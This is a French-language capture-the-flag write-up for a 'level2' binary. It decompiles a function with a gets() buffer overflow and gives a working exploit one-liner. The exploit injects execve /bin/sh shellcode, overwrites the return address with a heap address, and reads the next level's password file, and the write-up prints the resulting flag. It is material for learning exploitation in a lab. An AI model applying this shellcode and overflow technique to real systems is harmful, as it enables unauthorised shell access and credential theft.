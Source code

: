 # Rapport CTF - [Level02]

### Observation :
En arrivant sur le level2 on trouve un exécutable nommé level2.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484D4) --------------------------------------------------------
char *p()
{
char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
const void *v2; // [esp+5Ch] [ebp-Ch]
unsigned int retaddr; // [esp+6Ch] [ebp+4h]

fflush(stdout);
gets(s);
v2 = (const void *)retaddr;
if ( (retaddr & 0xB0000000) == 0xB0000000 )
{
printf("(%p)\n", v2);
_exit(1);
}
puts(s);
return strdup(s);
}

//----- (0804853F) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
return (int)p();
}
```
Nous pouvons voir plusieurs chose :
- Le programme lance la fonction `p()`.
- La fonction `p()` écrits dans un buffer `s[64]` votre string.
- Ensuite la fonction `p()` test si votre adresse de retour est dans la stack, si elle l'est, alors la fonction printf l'adresse de retour puis exit.
- Sinon la fonction print avec `puts()` votre entrée puis renvois l'adresse de la chaîne malloc de strdup.


### Solution :

Nous devons donc injecter un **SHELLCODE** pour pouvoir return sur notre propre code et l'exécuter. \
On crée donc un **shellcode** et on le met au début de notre chaîne pour qu'il soit exécuté. \ 
Nous voulons écrire l'adresse de notre shellcode a `(s) + (void*)` = `64 + 16` octets. \
On écrit donc notre **shellcode** au début (24 octets) ensuite des octets random pour arriver a (64  + 16 - 24), ensuite nous pouvons écrire notre adresse de retour.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '\x00' * (64 + 16 - 24) + '\x08\x04\xa0\x08'[::-1])" ; echo "cat /home/user/level3/.pass") | ./level2
```

### Resultat :
```sh
j
X1�Vh//shh/bin��1ɉ�̀
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```